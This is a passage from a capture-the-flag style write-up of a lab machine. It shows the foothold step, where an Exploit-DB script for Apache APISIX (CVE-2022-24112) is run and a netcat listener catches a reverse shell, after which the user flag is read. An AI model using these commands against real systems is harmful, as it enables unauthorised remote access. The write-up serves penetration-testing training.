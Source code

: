 Look at that! There's an RCE exploit for a version that's higher than the one of the server on port 43500. Reading the exploit code we learn that the CVE affects Apache APISIX versions 1.3 – 2.12.1.

Things are looking good, the exploit ([code](https://www.exploit-db.com/exploits/50829)) seems to set up a reverse shell. At this point I am pretty sure this exploit will get us in the box.

## Foothold

8) I set up my local listener (with `nc -lvnp 443`), and run the exploit code:

```
---(kali?kali)-[~]
--$ python /usr/share/exploitdb/exploits/multiple/remote/50829.py http://target:43500/ 192.168.49.59 443

                                   .     ,                                                                          
        _.._ * __*\./ ___  _ \./._ | _ *-+-                                                                         
       (_][_)|_) |/'\     (/,/'\[_)|(_)| |                                                                          
          |                     |                                                                                   
                                                                                                                    
                (CVE-2022-24112)                                                                                    
{ Coded By: Ven3xy  | Github: https://github.com/M4xSec/ }                                                                                                         
```

And we get a shell!

```
???(kali?kali)-[~]
??$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.49.59] from (UNKNOWN) [192.168.59.220] 58294
whoami
franklin
pwd
/root
ls -la
ls: cannot open directory '.': Permission denied
```

We land as user `frankflin` in the root directory.

9) Digging a little, we find the access flag in franflin's home directory:

```
cd /home/franklin
pwd
/home/franklin
ls
etcd-v3.4.13-linux-amd64
etcd-v3.4.13-linux-amd64.tar.gz
local.txt
cat local.txt
859d0250f2864e6a6487bea262107e01
```
